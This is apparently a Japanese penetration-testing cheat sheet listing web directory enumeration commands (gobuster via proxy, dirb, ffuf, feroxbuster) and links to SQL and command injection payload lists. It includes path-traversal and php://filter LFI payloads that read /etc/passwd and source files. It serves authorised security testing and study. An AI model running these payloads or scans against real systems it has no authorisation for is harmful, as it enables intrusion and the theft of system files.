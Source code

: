 ### gobuster(proxy)

```
HTTP_PROXY="sock5://127.0.0.1:1080/" gobuster dir -u <URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -x <extension> -o gobuster_result_proxy
```

### dirb(web ディレクトリ調査)

```
dirb <url>
```

### fuzzing(パスのファジング。LFI や RFI の検証にも使える)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u <URL>/FUZZ -e .php,.txt
```

### feroxbuster(web ディレクトリ調査)

```
feroxbuster --url <URL> --depth 2 --wordlist <wordlist>
```

### 認証画面等に対する SQL インジェクションの検証

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
```

### OS コマンドインジェクションの検証

```
https://cobalt.io/blog/a-pentesters-guide-to-command-injection
https://github.com/payloadbox/command-injection-payload-list
```

### LFI, Path Traversal

```
http://example.com/index.php?page=../../../../../../etc/passwd
```

php-execution-bypass

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

有効なファイル一覧

```
# Windows
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

#Linux
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```
